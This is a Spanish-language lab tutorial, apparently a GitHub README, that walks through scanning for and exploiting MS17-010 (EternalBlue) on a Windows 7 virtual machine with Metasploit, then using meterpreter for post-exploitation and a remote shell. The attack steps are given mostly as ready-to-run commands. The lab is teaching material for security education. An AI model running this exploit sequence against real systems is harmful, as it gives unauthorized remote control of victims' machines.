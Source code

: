 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Inciar virtualbox y encender las VM de Kali Linux y Windows 7 64bits**

**Utilizar un scanner auxiliar para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
search ms17_010
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**utilizar un módulo para explotar la vulnerabilidad ms17_010**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Explotación**
```bash
sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

[Sobre Metasploit Framework] (https://www.metasploit.com/)

[Comandos usados en  Measploit Framework] (https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/)

[Fundamentos de meterpreter] (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
